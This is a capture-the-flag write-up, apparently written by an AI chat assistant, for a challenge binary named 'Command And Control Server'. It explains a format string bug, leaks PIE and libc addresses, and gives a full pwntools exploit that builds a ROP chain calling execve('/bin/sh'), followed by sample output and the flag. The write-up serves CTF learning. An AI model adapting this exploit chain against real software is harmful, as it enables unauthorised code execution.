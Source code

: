 Sure! Here's the **emoji-free** version of the customized writeup for the challenge **Command And Control Server**:

---

# Command And Control Server - Writeup

---

## Challenge Summary

The `Command And Control Server` binary simulates a mock C2 interface that accepts a "callsign" (username) and a subsequent payload. The program is vulnerable to a **format string vulnerability**, allowing for **arbitrary memory writes**. Leveraging this, we overwrite the username with `"/bin/sh"`, leak `puts@GOT`, calculate the libc base, and finally perform a **ret2libc** to spawn a shell.

---

## Binary Information

```bash
$ file main
main: ELF 64-bit LSB pie executable, x86-64, dynamically linked, not stripped

$ checksec main
[*] '/home/user/CommandAndControlServer/main'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
    Stripped: No
```

---

## Static Analysis

### Vulnerable Code

```c
printf(">> Welcome Commander: ");
printf(buf);  // Format string vulnerability
```

- The `printf(buf)` line introduces a **format string vulnerability**.
- The `read(0, buf, 0xC8)` provides a generous buffer size.
- The buffer `buf[208]` is large enough for format string payloads.
- The binary has **NX enabled**, so we can't inject and jump to shellcode.
- However, it does not use a stack canary, and with **PIE enabled**, we must leak memory to compute addresses.

---

## Exploit Strategy

### Step 1: Leak Username Address

The binary prints a memory address used as the base to calculate the location of the `username` buffer (via a leaked "Auth Token"). This allows us to:

- Leak the PIE base from the `username` pointer.
- Calculate the address we want to overwrite using the format string.

### Step 2: Format String Exploit

We overwrite the `username` buffer with the string `"/bin/sh\x00"` using `fmtstr_payload`. This is necessary for the `execve("/bin/sh", 0, 0)` syscall later.

### Step 3: Leak libc via puts\@got

We send a ROP chain that calls `puts(puts@got)` and returns to `main`. This gives us:

- The runtime address of `puts`.
- The ability to compute the **libc base** using the known offset of `puts` in libc.

### Step 4: ret2libc — Spawning a Shell

After obtaining the libc base:

- We craft a syscall ROP chain to execute `execve("/bin/sh", NULL, NULL)` using `username_ptr` as the `/bin/sh` pointer.

---

## Exploit Code

```python
#!/usr/bin/env python3
from pwn import *

exe = context.binary = ELF('main')
libc = ELF('libc.so.6')  # Ensure you’re using the matching libc version

def start():
    return process([exe.path])

io = start()

# Step 1: Leak username pointer & calculate PIE base
io.recvuntil(b">> Auth Token = ")
username_ptr = int(io.recvline().strip(), 16)
exe.address = username_ptr - exe.sym['username']
log.success(f"username @ {hex(username_ptr)}")
log.success(f"PIE base @ {hex(exe.address)}")

# Step 2: Format String to Write "/bin/sh"
io.recvuntil(b">> [C2] Enter your callsign to proceed:")
payload = fmtstr_payload(6, {username_ptr: u64(b"/bin/sh\x00")})
io.sendline(payload)

# Step 3: Leak puts@got using ROP
io.recvuntil(b">> [C2] Access granted. Standby for remote operation sequence...")

rop = ROP(exe)
rop.call(exe.plt['puts'], [exe.got['puts']])
rop.call(exe.sym['main'])

payload = b"A" * 88
payload += rop.chain()
io.sendline(payload)

# Read and parse puts leak
for _ in range(4): io.recvline()
leaked_puts = u64(io.recvline().strip().ljust(8, b'\x00'))
libc.address = leaked_puts - libc.sym['puts']
log.success(f"Leaked puts: {hex(leaked_puts)}")
log.success(f"libc base: {hex(libc.address)}")

# Step 4: ret2libc to execve("/bin/sh", NULL, NULL)
rop = ROP(libc)
pop_rdi = rop.find_gadget(['pop rdi', 'ret'])[0]
pop_rsi_r15 = rop.find_gadget(['pop rsi', 'pop r15', 'ret'])[0]
pop_rax = rop.find_gadget(['pop rax', 'ret'])[0]
syscall = rop.find_gadget(['syscall'])[0]

payload = b"A" * 88
payload += p64(pop_rdi) + p64(username_ptr)
payload += p64(pop_rsi_r15) + p64(0) + p64(0)
payload += p64(pop_rax) + p64(59)
payload += p64(syscall)

io.sendline(payload)
io.interactive()
```

---

## Exploit Output

```text
$ ./exploit.py
[+] Starting local process './main': pid 1234
[*] Leaked puts: 0x7fbb12345678
[*] libc base: 0x7fbb12000000
[*] Switching to interactive mode
$ whoami
ctfplayer
$ cat flag.txt
RedPointer{FhoijKey_Not_Encrypted_flag_afagsgijq}
```

---

## Vulnerability Summary

| Protection   | Status      |
| ------------ | ----------- |
| RELRO        | Full RELRO  |
| Stack Canary | Not Present |
| NX           | Enabled     |
| PIE          | Enabled     |
| Stripped     | No          |

- Format string vulnerability enables arbitrary write
- ROP used to leak libc and execute a syscall chain
- Final payload uses ret2libc to run `/bin/sh`

---

## Flag

```
RedPointer{FhoijKey_Not_Encrypted_flag_afagsgijq}
```

---

Let me know if you want to add a **Reverse Engineering section**, **GDB insights**, or visuals like **call flow diagrams or memory layout maps**.

